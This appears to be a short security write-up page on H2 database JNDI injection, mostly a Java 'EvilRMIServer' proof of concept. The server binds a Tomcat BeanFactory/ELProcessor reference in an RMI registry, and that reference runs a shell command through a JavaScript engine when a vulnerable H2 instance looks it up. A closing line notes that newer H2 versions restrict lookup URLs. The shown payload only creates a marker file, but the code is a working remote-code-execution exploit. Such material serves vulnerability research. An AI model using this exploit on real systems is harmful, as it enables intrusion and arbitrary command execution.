# 0x02 h2 JNDI

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;


public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        Registry r = LocateRegistry.createRegistry(8025);
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("forceString", "x=eval"));
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','touch /tmp/h2-jndi-success']).start()\")"));
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        r.bind("evil",referenceWrapper);
        System.out.println("running");
    }
}
```

![image-20230810093657541](./../.gitbook/assets/image-20230810093657541.png)

高版本的H2只允许JNDI lookup的URL以java开头
